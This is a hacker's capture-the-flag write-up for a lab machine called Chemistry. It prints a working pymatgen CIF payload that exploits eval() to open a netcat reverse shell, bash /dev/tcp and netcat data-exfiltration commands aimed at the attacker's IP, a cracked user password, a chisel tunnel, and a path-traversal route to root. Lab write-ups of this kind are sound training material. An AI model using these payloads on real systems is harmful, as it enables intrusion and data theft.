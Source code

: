 ### Quick reference information:
- My IP: `10.10.14.9`
- Target IP: `10.10.11.38`
- My website credentials:
	- Username: `gamer123`
	- Password: `gamer123`
- User info:
	- Username: `rosa`
	- Password: `unicorniosrosados`
- User flag:
	- `60b2a331594cc6c5f9ca897e4ffda69b`
- Root flag:
	- `98c3d5c0b41b7070f5077040f19e989b`

### Enumeration
- Results from `nmap` seem pretty standard, I might want to try more ports later on, though: 
```a
[lkotlus@work] [~/Nerd/htb/chemistry] [09:45 PM]  
> sudo nmap -sV 10.10.11.38  
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-09 21:46 EST  
Nmap scan report for 10.10.11.38  
Host is up (0.016s latency).  
Not shown: 998 closed tcp ports (reset)  
PORT     STATE SERVICE VERSION  
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)  
5000/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.9.5)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 8.13 seconds
```
- Let's check out this website (and this strange `httpd` service)

### Website
- Default route is a login page.
- The idea is that it is a CIF (Crystallographic Information File) Analyzer. Users upload a file and it analyzes it for us.
- This sounds like (assuming it isn't a basic exploit on the hosting service) a very basic evil file upload.
- Let's see if I can register an account!
	- I can!
- Let's try uploading a php file ([this, as always](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php))
- I try uploading the file (`evil.php`) and get redirected to a 405 (Method Not Allowed) page. Cringe.
- Let's try changing the file extension to CIF.
	- Upload works!
	- Viewing the file doesn't work!
	- Unfortunate.
	- Just to double check, let's listen and view the file:  
```a
[lkotlus@work] [~/Nerd/htb/chemistry] [09:59 PM]  
> sudo nc -lvp 4206
...
```
- Nothing! I might need to look at how CIF files work. Perchance there is an easy way to inject something malicious into them. For now, let's take a look at the web service.

### Werkzeug httpd 3.0.3
- The first thing we know is that this is using Python 3.9.5. I know how to use Python, so if there's an attack involving that I should be good.
- There's one on versions 0.10 and older for the debug console, seems like the wrong track.
- Let's keep going with this CIF file lead.

### CIF stuff
- These things are a custom formatted file format with syntax similar to just setting up variables in a programming language.
- They set up relationships for chemistry crap that I honestly couldn't care less about.
- With an example file from the web, we can actually upload the file and have it work properly. Very nice!
- Opening the file in VSCode, it's pretty readable.
- 790 lines of this... unfortunate.
- I copied it to a new file and tried putting a little something something in it rather than data. Completely failed.
- Let's check the web for some known exploits with such files.
	- It looks like there's [an exploit against CIF files with pymatgen](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f). The server must be running some Python according to the `nmap` scan, so this is promising.
- Reading about how the exploit works:
	- So apparently a vulnerable part of the code uses `eval()` (amateurs) for something.
	- This gives us ACE, which is pretty noice. I should be able to get a Python reverse shell one-liner and be done.
	- My payload shall be:
		- `nc 10.10.14.9 4206 -e /bin/bash`
		- Pretty sick!
- Let's assemble a CIF payload and get to it!
```a
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("nc 10.10.14.9 4206 -e /bin/bash");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
- This ought to do it.
	- Listening with `nmap -lvp 4206`...
	- Uploading the file...
	- Viewing...
	- INTERNAL SERVER ERROR!!!! Damn.
	- It was so promising!!!!
- This isn't the end, though. I'll try again with the vanilla payload.
	- Still an error.
- Well... let's look at some other exploits.
	- There aren't any.
- Crap. This mainly stems from a lack of information about the technology being used in the backend to support all of the CIF parsing.
- Then again, the exploit is so recent and specific to a Python-based CIF parser, it feels as if (metagaming lmao) that this MUST be the one that I should be going for!
- Could it be that netcat simply isn't installed? Feels like that couldn't possibly be the issue.
- A walkthrough (so far) shows that I am absolutely on the right track!
- The issue seems to be my payload choice. Damn it.
	- New payload: `/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.9/4206 0>&1\'`
	- This is really good for machines that might not have any real software installed.
	- Let's try it out! (I cancel the single quotes for python purposes)
	- WE ARE IN BUSINESS!
- I'm in (as the `app` user).
- Now just time for some...

### Priv esc (user)
- I see a SQLite database file. I want.
- Let's try to figure out a way to get this to my machine without putting a railroad spike through my skull.
	- First I tried the certified hood classic `python3 -m http.server 80`, but that is decidedly not allowed.
	- I could try to just put this file on the webserver. That would be funny.
	- Wait a minute... netcat exists! 
		- Victim machine: `nc 10.10.14.9 4444 -w 3 < database.db`
		- My machine: `nc -lvp 4444 > database.db`
		- And... it works!
- Let's convert this to CSV and see if we can get a password.
- User's name is `rosa`, so if there's a user by that name on the website I should be able to go for some password cracking stuff.
- Convert to CSV with [this tool](https://github.com/darrentu/convert-db-to-csv/blob/master/convert-db-to-csv.sh).
- Boom! The hash for the `rosa` user is: `63ed86ee9f624c7b14f1d4f43dc251a5`.
- Let's try out crack station.
	- THEY ARE USING MD5 LMAO!
	- `rosa:unicorniosrosados`
- Now I can `ssh` into a real environment (assuming she reuses passwords).
	- I am almost too good at this.
- Admin password wasn't found on crack station, I would assume that this isn't the way I'll get it either way.
- User flag!

### Priv esc (root)
- Time to really get this bread.
- We're running Ubuntu 20.04 (oh, I remember those days...)
- I see something called `lxd` (virtualization software made by Canonical) and `_laurel`. 
- Really, I should have listened to those `netstat` results that I saw a bit ago instead of going on wild goose chases. Let's port forward 8080 to see some cool stuff.
	- Let's revisit our friend `chisel` to do this.
	- My machine: `chisel server -p 9999 --reverse`
	- Victim: `chisel client [my ip]:9999 R:80:127.0.0.1:8080`
	- Getting the chisel client to the victim is an easy process, just run: `wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_386.gz; gunzip chisel_1.10.1_linux_386.gz; scp chisel_1.10.1_linux_386 user@ip:/home/user/chisel`
	- "So easy and convenient"
- Lovely! We have some sort of monitoring/metrics site.
- Let's hit ourselves with an `nmap -sV -p 8080 localhost`
	- Result is `8080/tcp open  http    aiohttp 3.9.1 (Python 3.9)`
- Let's look for exploits:
	- [Path traversal](https://github.com/z3rObyte/CVE-2024-23334-PoC)
	- Not much else...
- Just within the website, I can see that the `Start service` button re-copies all of the information to the `List services` page. It says that it doesn't do anything, but it seems as if it actually does do something.
- I wonder if I can get it to do whatever I want...
- There's a `/list_services` endpoint. That's interesting.
	- It's just the `service --status-all` output.
- Dead end. Found a walkthrough and got a hint. I was getting somewhere with the path traversal. Apparently I needed to have `/assets` instead of `/static`. Sucks to suck.
- I can read any file with this. Can I read the flag file?
- Yes! I can ready everything.
	- Pwned: `98c3d5c0b41b7070f5077040f19e989b`
- I might've supposed to have dumped the shadow file, but this was faster and easier.